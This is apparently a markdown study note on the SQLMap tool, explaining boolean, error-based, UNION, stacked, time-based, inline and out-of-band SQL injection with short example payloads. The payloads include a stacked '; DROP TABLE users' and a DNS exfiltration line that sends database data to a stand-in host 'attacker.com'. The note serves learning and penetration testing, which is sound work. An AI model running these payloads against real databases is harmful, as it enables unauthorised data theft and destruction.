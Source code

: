 # SQLMap
---
SQLMap is a tool that automates the process of finding SQL injection vulnerabilities.
Detailed information can be found in the [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

## Injection types
---
The different injection types (or techniques) are referred to as `BEUSTQ` which stands for

- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries


### Boolean-based blind
---
Basically just tests if
```sql
AND 1=1
```
works.


### Error-based
---
Is besides `UNION query-based` the fastest because it can retrieve a limited amount of date (chunks) through each request.


Example:
```sql
AND GTID_SUBSET(@@version,0)
```

How it works:
If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries. In such cases, specialised payloads for the current DBMS are used, targeting the functions that cause known misbehaviours. SQLMap has the most comprehensive list of such related payloads.


### UNION query-based
---
Example:
```sql
UNION ALL SELECT 1,@@version,3
```

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results. This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.


### Stacked queries
---
Example:
```sql
; DROP TABLE users
```

Basically adding additional SQL statements after the vulnerable one.

Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.


### Time-based blind SQL Injection
---
Example:
```sql
AND 1=IF(2>1,SLEEP(5),0)
```


The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

- `TRUE` response is generally characterised by the noticeable difference in the response time compared to the regular server response
    
- `FALSE` response should result in a response time indistinguishable from regular response times
    

`Time-based blind SQL Injection` is considerably slower than the boolean-based blind SQLi, since queries resulting in `TRUE` would delay the server response. This SQLi type is used in cases where `Boolean-based blind SQL Injection` is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. `INSERT`, `UPDATE` or `DELETE`), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as `Boolean-based blind SQL Injection` would not really work in this case.


### Inline queries
---
Example:
```sql
SELECT (SELECT @@version) from
```

This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.


### Out-of-band SQL Injection
---
Example:
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.



## Basic scenario
---
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```
Where `--batch` skips any required user input, by automatically choosing using the default option.

